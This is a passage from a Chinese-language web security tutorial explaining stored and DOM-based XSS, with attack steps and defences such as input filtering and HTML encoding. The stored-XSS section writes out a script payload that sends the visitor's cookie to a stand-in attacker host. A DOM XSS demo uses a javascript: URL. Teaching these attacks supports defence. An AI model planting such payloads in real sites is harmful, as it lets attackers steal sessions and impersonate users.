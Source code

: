 如上我们就可以很容易通过xss攻击拿到对方的cookie信息了。

[github源码查看](https://github.com/tugenhua0707/web-security/tree/master/xss/反射性xss)

[回到顶部](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labelTop)

三：存储型XSS

**存储型XSS的原理是：主要是将恶意代码上传或存储到服务器中，下次只要受害者浏览包含此恶意代码的页面就会执行恶意代码。**

比如我现在做了一个博客网站，然后攻击者在上面发布了一篇文章，内容是如下：<script>window.open("www.gongji.com?param="+document.cookie)</script> 如果我没有对该文章进行任何处理的话，直接存入到数据库中，那么下一次当其他用户访问该文章的时候，服务器会从数据库中读取后然后响应给客户端，那么浏览器就会执行这段脚本，然后攻击者就会获取到用户的cookie，然后会把cookie发送到攻击者的服务器上了。

**因此存储型XSS的攻击步骤如下：**

\1. 攻击者将恶意代码提交到目标网站数据库中。
\2. 用户打开目标网站时，网站服务器将恶意代码从数据库中取出，然后拼接到html中返回给浏览器中。
\3. 用户浏览器接收到响应后解析执行，那么其中的恶意代码也会被执行。
\4. 那么恶意代码执行后，就能获取到用户数据，比如上面的cookie等信息，那么把该cookie发送到攻击者网站中，那么攻击者拿到该
cookie然后会冒充该用户的行为，调用目标网站接口等违法操作。

**如何防范？**
\1. 后端需要对提交的数据进行过滤。
\2. 前端也可以做一下处理方式，比如对script标签，将特殊字符替换成HTML编码这些等。

[回到顶部](https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labelTop)

四：DOM-based型XSS

我们客户端的js可以对页面dom节点进行动态的操作，比如插入、修改页面的内容。比如说客户端从URL中提取数据并且在本地执行、如果用户在客户端输入的数据包含了恶意的js脚本的话，但是这些脚本又没有做任何过滤处理的话，那么我们的应用程序就有可能受到DOM-based XSS的攻击。因此DOM型XSS的攻击步骤如下：

\1. 攻击者构造出特殊的URL、在其中可能包含恶意代码。
\2. 用户打开带有恶意代码的URL。
\3. 用户浏览器收到响应后解析执行。前端使用js取出url中的恶意代码并执行。
\4. 执行时，恶意代码窃取用户数据并发送到攻击者的网站中，那么攻击者网站拿到这些数据去冒充用户的行为操作。调用目标网站接口
执行攻击者一些操作。

**DOM XSS 是基于文档对象模型的XSS。一般有如下DOM操作：**
\1. 使用document.write直接输出数据。
\2. 使用innerHTML直接输出数据。
\3. 使用location、location.href、location.replace、iframe.src、document.referer、window.name等这些。
比如如下demo:

```
<script>
  document.body.innerHTML = "<a href='"+url+"'>"+url+"</a>";
</script>
```

假如对于变量url的值是：javascript:alert('dom-xss'); 类似这样的，那么就会收到xss的攻击了。因此对于DOM XSS主要是由于本地客户端获取的DOM数据在本地执行导致的。因此我们需要对HTML进行编码，对JS进行编码来防止这些问题产生。具体如何编码可以请看我下面的 XSS 如何防范那个地方即可。

我们接下来看看demo代码吧：

**1. 使用document.write直接输出导致浏览器解析恶意代码**
代码如下：

[![复制代码](media/XSS攻击原理与防御/copycode.gif)](javascript:void(0);)
